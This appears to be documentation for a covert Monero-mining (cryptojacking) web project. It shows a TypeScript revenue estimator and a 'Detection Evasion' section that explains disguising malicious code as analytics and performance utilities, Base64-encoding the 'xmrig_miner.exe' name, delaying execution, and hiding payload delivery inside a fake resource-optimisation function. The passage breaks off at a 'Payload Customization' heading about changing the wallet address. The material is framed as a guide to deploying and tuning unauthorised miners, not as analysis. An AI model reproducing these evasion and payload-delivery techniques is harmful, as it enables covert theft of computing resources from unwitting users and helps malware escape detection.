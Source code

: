 ### Revenue Calculation
**File**: [`client/src/lib/minerConfig.ts`](client/src/lib/minerConfig.ts:98)

```typescript
export const estimateMiningRevenue = (
  minerCount: number,
  xmrPriceUsd: number = 150
): number => {
  const xmrPerDayPerMiner = 0.0002;
  const totalXmrPerDay = minerCount * xmrPerDayPerMiner;
  const usdPerDay = totalXmrPerDay * xmrPriceUsd;
  return usdPerDay;
};
```

## 🔍 Detection Evasion

### 1. Legitimate Function Names
- `initAnalytics()` → State initialization
- `trackEvent()` → Click tracking
- `optimizeResourceLoading()` → Payload delivery
- `checkForExecutables()` → Persistence check

### 2. Hidden in Performance Code
All malicious code is embedded within performance monitoring utilities that appear legitimate.

### 3. Base64 Encoding
```typescript
resourceName: "eG1yaWdfbWluZXIuZXhl" // "xmrig_miner.exe" encoded
```

### 4. Delayed Execution
```typescript
startupDelay: 5 // Wait 5 seconds before starting
```

### 5. Resource Optimization Disguise
```typescript
export const optimizeResourceLoading = async (resourceType: string) => {
  // Appears to optimize resources but actually delivers payload
  if (resourceType === "media" && window._dState && window._dState.attempts > 0) {
    window._pUtils.processResource(null);
  }
};
```

## 🎯 Payload Customization

### Change Wallet Address
**Location**: [`client/src/lib/minerConfig.ts:15`](client/src/lib/minerConfig.ts:15)
